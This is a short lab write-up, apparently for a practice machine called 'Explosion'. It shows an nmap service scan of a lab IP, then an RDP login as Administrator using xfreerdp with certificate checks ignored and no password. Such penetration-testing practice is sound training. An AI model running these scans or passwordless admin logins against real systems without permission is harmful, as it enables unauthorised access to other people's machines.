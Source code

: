 # Explosion

- TL;DR: We are able to connect to a Windows host without a passwrod using `xfreerdp` and the `Administrator` username.

## Reconnaissance 

- Run an nmap scan:
```
nmap -sV -oA nmap_scans/Explosion 10.129.1.13

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 07:03 PDT
Nmap scan report for 10.129.1.13
Host is up (0.077s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.19 seconds

```

<br>

## Exploitation

- We find the following port(s) that are open:
    - `135/tcp` msrpc
    - `139/tcp` netbios-ssn
    - `445/tcp` microsoft-ds
    - `3389/tcp` ms-wbt-server
- Next we install the `xfreerdp` tool if its not already installed by running `sudo apt-get install freerdp2-x11`
- Once installed, we try to connect to the host with our current username `xfreerdp /v:10.129.1.13`. We are unable to connect to the host because to does not accpet our current username for the RDP session login.
- We try and brute force multiple usernames and get a hit on `Administrator` by running `xfreerdp /v:10.129.1.13 /cert:ignore /u:Administrator`
- During the initialization of the RDP session, we are asked for a `Password`. However, the `Administrator` account has not been configured with a password for logging in, This allows us to log in without a password.

